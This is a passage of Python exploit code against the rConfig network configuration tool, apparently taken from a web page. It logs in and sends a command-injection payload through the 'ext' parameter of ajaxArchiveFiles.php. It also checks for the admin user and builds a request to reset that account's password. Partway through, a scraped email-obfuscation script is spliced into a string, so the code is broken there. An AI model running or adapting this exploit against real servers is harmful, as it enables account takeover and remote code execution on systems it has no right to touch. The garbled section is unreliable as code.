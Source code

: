         'user': 'admin',

        'pass': 'Testing1@',

        'sublogin': '1'

    }

        with requests.Session() as s:

             p = s.post(url+'lib/crud/userprocess.php', data=payload, verify=False)

             if "Stephen Stack" in p.text:

                print("(-) Exploit failed, could not login as user test")

             else:

                print("(+) Log in as test completed")

                params = {'path':'test',

                          'ext': payload_final

                         }

                rce=s.get(url+'lib/ajaxHandlers/ajaxArchiveFiles.php', verify=False, params=params)

                if "success" in rce.text:

                    print("(+) Payload executed successfully")

                else:

                    print("(-) Error when executing payload, please debug the exploit")

     

     

    def user_enum_update():

        users=requests.get(url+'useradmin.inc.php', verify=False)

        #matchObj = re.findall(r'<td align="center">(.*?)</td>', users.text, re.M|re.I|re.S)

        

        if "admin" in users.text:

          print("(+) The admin user is present in this rConfig instance")

          multipart_data = MultipartEncoder(

           fields={

                   'username': 'admin',

                   'password': 'Testing1@', #password should have a capital letter, lowercase, number and a symbol

                   'passconf': 'Testing1@',

                   'email': <a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="eccb8d88818582ac8d88818582c28f8381">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script>',
